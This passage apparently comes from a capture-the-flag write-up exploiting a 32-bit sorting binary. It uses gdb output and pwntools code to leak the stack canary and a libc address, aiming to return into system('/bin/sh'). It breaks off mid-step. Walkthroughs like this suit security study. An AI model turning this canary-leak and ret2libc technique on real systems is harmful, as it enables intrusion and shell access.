```
|		.		|
---------------------------------
| stack canary			| esp + 0x7c
---------------------------------
| saved ebx			| esp + 0x80
---------------------------------
| saved esi			| esp + 0x88
---------------------------------
| saved edi			| esp + 0x8c
---------------------------------
| <main> return addr		| esp + 0x90
---------------------------------
```


With the correct offset value, we can make `int_array_ptr` point to any memory in the stack frame. For instance, we can leak the value of the stack canary with the offset of 25. The `stack canary` is located 60 characters  (ie 24 DWORDS) away from `int_array_ptr`. In other words, it's the 25th DWORD from `int_array_ptr`. Let's try to see if we can print the stack canary's value. First, let's see its *real* value. It is `0x05887500`. The 25th value printed by the program, `92828928`, is the very same value.
```
Breakpoint 8, 0x565559e0 in main ()
(gdb) p/x $eax
$1 = 0x5887500
[...]
(gdb) x/x $esp+0x7c
0xffffce8c:	0x05887500
```
```
(gdb) c
Continuing.
What your name :sol
Hello sol
0���/,How many numbers do you what to sort :25
Enter the 0 number : 0
Enter the 1 number : 0
[...]
Enter the 23 number : 0
Enter the 24 number : f
Processing......
Result :
0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 92828928 [Inferior 1 (process 27721) exited normally]
```

Now that we have a way to get the stack canary's value, we need keep it in its current position so we can overwrite `<main>`'s return address. This means that the address of whatever we want to return to from `<main>` better be greater than the stack canary's value. We'll cross the bridge when we come to it. First, let's find the addresses of our string `"/bin/sh"` and function `<system>`. Finding the offset of `"/bin/sh"` and `<system>` is easy with `pwntools`.
```
from pwn import *
elf = ELF('libc_32.so.6')
binsh_offset = next(elf.search('/bin/sh'))
system_offset = elf.symbols['system']
```
The difficult part is finding its *real* address in runtime. Since the program has PIE enabled, we will not know which part of the virtual memory the shared libc library will be loaded into. That means we have to leak an address from the program whose offset we know. Then, we can get a base address. Remember I mentioned that there is a key value in the variable `my_name` that we need to use? Turns out, its `0xf7fd0000`, and its the address from the libc library. `info proc mappings` show that the offset of said address is `0x1b0000` from the base address of the libc library, `0xf7e20000`. (I have no idea why it prints the offset as `0x1af000`, but it's actually `0x1b0000`).
```
(gdb) b *0x56555a1d
```